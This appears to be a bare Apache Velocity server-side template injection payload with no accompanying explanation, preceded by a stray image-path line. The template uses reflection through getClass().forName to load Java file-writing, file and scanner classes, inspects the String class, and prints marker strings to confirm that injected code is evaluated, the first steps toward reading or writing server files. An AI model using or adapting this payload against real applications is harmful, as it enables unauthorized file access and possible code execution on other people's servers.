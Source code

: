 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
$a
#set ($ab=$e.getClass().forName("java.io.File"))
$ab
#set($sc = $e.getClass().forName("java.util.Scanner"))
$sc
#set($str=$class.inspect("java.lang.String").type)
$str
$monkey
